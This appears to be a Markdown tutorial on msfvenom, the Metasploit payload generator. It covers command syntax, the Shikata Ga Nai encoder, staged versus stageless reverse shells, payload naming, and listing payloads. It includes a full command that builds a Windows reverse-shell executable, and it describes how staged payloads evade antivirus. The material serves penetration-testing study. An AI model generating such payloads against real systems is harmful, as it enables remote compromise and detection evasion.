# Msfvenom

### Introduction

Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly.

it can also be used to generate payloads in various formats (e.g. `.exe, .aspx, .war, .py`)

***

### Syntax

The standard syntax for msfvenom is as follows: `msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

***

### **Encoders**

#### Shikata Ga Nai (SGN)

The phrase SGN in the Japanese language means “**nothing can be done**”. SGN is a polymorphic XOR additive feedback encoder. It is polymorphic in that each creation of encoded shellcode is going to be different from the next. It accomplishes this through a variety of techniques such as dynamic instruction substitution, dynamic block ordering, randomly interchanging registers, randomizing instruction ordering, inserting junk code, using a random key, and randomization of instruction spacing between other instructions. The XOR additive feedback piece in this case refers to the fact the algorithm is XORing future instructions via a random key and then adding that instruction to the key to be used again to encode the next instruction. Decoding the shellcode is a process of following the steps in reverse. Its name to use is `x86/shikata_ga_nai`

***

### **Staged vs Stageless**

#### Staged Reverse Shell Payloads

Staged payloads are sent in two parts -- The first part is called the **stager**. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any **reverse shell code** by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Staged payloads require a special listener -- usually the Metasploit multi/handler

Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (**AMSI**) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

#### Stageless Reverse Shell Payloads

Stageless payloads are more common. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove.

***

### Payload Naming Conventions

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows: `<OS>/<arch>/<payload>`

For example:

1. `linux/x86/shell_reverse_tcp`
   * This would generate a stageless reverse shell for an x86 Linux target.
2. The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:
   * `windows/shell_reverse_tcp`
3. For a 64bit Windows target, the arch would be specified as normal (x64).

In the above examples the payload used was **shell\_reverse\_tcp**. This indicates that it was a stageless payload. **Stageless payloads are denoted with underscores (\_)**.

The staged equivalent to this payload would be: **shell/reverse\_tcp**, **As staged payloads are denoted with another forward slash (/).**

**This rule also applies to Meterpreter payloads**. A Windows 64bit staged Meterpreter payload would look like this: windows/x64/meterpreter/reverse\_tcp

A Linux 32bit stageless Meterpreter payload would look like this: linux/x86/meterpreter\_reverse\_tcp

***

### List Payloads

To list all available payloads, `msfvenom --list payloads`

Which can then be `piped` into grep to search for a specific set of payloads.

***
